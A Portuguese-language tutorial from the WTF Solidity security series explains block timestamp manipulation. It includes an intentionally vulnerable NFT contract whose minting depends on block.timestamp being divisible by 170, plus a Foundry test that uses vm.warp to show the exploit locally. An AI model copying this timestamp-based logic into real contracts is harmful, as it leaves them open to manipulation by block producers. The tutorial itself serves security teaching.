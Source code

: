 ```yaml
---
title: S14. Manipulação do Tempo de Bloco
tags:
- solidity
- segurança
- timestamp
---
```


# WTF Solidity Contratos Seguros: S14. Manipulação do Tempo de Bloco

Recentemente, tenho estudado solidity novamente para revisar os detalhes e escrever um "Guia WTF de Introdução ao Solidity" para iniciantes (programadores experientes podem procurar outros tutoriais). Serão lançadas de 1 a 3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk)｜[Grupo do WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

-----

Nesta lição, vamos falar sobre o ataque de manipulação do tempo de bloco em contratos inteligentes e reproduzi-lo usando o Foundry. Antes do Merge, os mineradores de Ethereum podiam manipular o tempo de bloco, o que poderia ser explorado se um contrato de loteria dependesse do timestamp do bloco.

## Tempo de Bloco

O tempo de bloco (block timestamp) é um valor `uint64` incluído no cabeçalho de um bloco Ethereum, representando o timestamp UTC (em segundos) em que o bloco foi criado. Antes do Merge, o Ethereum ajustava a dificuldade dos blocos com base no poder de processamento, o que resultava em tempos de bloco variáveis, com uma média de 14,5 segundos por bloco. Os mineradores podiam manipular o tempo de bloco. Após o Merge, o tempo de bloco foi fixado em 12 segundos e os nós de validação não podem mais manipular o tempo de bloco.

Em Solidity, os desenvolvedores podem obter o timestamp do bloco atual usando a variável global `block.timestamp`, que é do tipo `uint256`.

## Exemplo de Vulnerabilidade

Este exemplo é uma modificação do contrato apresentado em [WTF Solidity Contratos Seguros: S07. Números Aleatórios Ruins](./32_Faucet). Alteramos a condição da função de criação `mint()`: agora, a criação só é bem-sucedida se o timestamp do bloco for divisível por 170:

```solidity
contract TimeManipulation is ERC721 {
    uint256 totalSupply;

    // Construtor: inicializa o nome e o símbolo da coleção NFT
    constructor() ERC721("", ""){}

    // Função de criação: só é possível criar se o timestamp do bloco for divisível por 170
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // criação
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Reproduzindo o Ataque com o Foundry

Para reproduzir o ataque, o atacante só precisa manipular o tempo de bloco para um número divisível por 170. Vamos usar o Foundry para isso, pois ele fornece códigos de trapaça para modificar o tempo de bloco. Se você não está familiarizado com o Foundry/códigos de trapaça, pode ler o [tutorial do Foundry](../Topics/Tools/TOOL07_Foundry/readme.md) e o [Foundry Book](https://book.getfoundry.sh/forge/cheatcodes).

Lógica do código:

1. Criar uma variável de contrato `nft` do tipo `TimeManipulation`.
2. Criar um endereço de carteira `alice`.
3. Usar o código de trapaça `vm.warp()` para definir o tempo de bloco como 169, o que não é divisível por 170 e resultará em falha na criação.
4. Usar o código de trapaça `vm.warp()` para definir o tempo de bloco como 17000, o que é divisível por 170 e resultará em sucesso na criação.

Código:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.21;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // Calcula o endereço para uma chave privada fornecida
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("Condição 1: block.timestamp % 170 != 0");
        // Define block.timestamp como 169
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // Define o endereço do chamador das chamadas subsequentes como o endereço fornecido
        // até que `stopPrank` seja chamado
        vm.startPrank(alice);
        console.log("Saldo de alice antes da criação: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("Saldo de alice após a criação: %s", nft.balanceOf(alice));

        // Define block.timestamp como 17000
        console.log("Condição 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("Saldo de alice antes da criação: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("Saldo de alice após a criação: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

Após instalar o Foundry, execute o seguinte comando no terminal para iniciar um novo projeto e instalar a biblioteca OpenZeppelin:

```shell
forge init TimeManipulation
cd TimeManipulation
forge install Openzeppelin/openzeppelin-contracts
```

Copie o código desta lição para as pastas `src` e `test`, respectivamente. Em seguida, execute o seguinte comando para iniciar os testes:

```shell
forge test -vv --match-test testMint
```

A saída será a seguinte:

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  Condição 1: block.timestamp % 170 != 0
  block.timestamp: 169
  Saldo de alice antes da criação: 0
  Saldo de alice após a criação: 0
  Condição 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  Saldo de alice antes da criação: 0
  Saldo de alice após a criação: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

Podemos ver que a criação é bem-sucedida quando o `block.timestamp` é alterado para 17000.

## Conclusão

Nesta lição, discutimos o ataque de manipulação do tempo de bloco em contratos inteligentes e o reproduzimos usando o Foundry. Antes do Merge, os mineradores de Ethereum podiam manipular o tempo de bloco, o que poderia ser explorado se um contrato de loteria dependesse do timestamp do bloco. Após o Merge, o Ethereum fixou o tempo de bloco em 12 segundos e os nós de validação não podem mais manipular o tempo de bloco. Portanto, esse tipo de ataque não ocorrerá no Ethereum, mas ainda pode ser encontrado em outras blockchains.

